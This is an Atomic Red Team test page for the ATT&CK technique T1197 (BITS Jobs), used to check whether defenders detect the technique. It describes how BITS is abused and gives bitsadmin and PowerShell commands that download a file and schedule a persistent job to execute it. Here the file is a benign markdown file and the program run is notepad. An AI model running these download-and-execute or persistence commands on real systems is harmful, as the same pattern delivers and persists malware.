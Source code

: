 ```yaml
---
title: T1197 - BITS Jobs
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197/)

<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.
<br/><br/>
The interface to create and manage BITS jobs is accessible through <a href="https://attack.mitre.org/techniques/T1086">PowerShell</a>  (Citation: Microsoft BITS) and the <a href="https://attack.mitre.org/software/S0190">BITSAdmin</a> tool. (Citation: Microsoft BITSAdmin)
<br/><br/>
Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)
<br/><br/>
BITS upload functionalities can also be used to perform <a href="https://attack.mitre.org/techniques/T1048">Exfiltration Over Alternative Protocol</a>. (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)
<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload

**Supported Platforms:** Windows

### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | [Remote File]("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md")|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
### Run it with `command_prompt`!

```
bitsadmin.exe  /transfer /Download /priority Foreground #{remote_file} #{local_file}
```
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload leveraging PowerShell

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | [Remote File]("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md"|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `powershell` !

```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | [Remote File]("https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md"|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt` !

```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```
<br/>
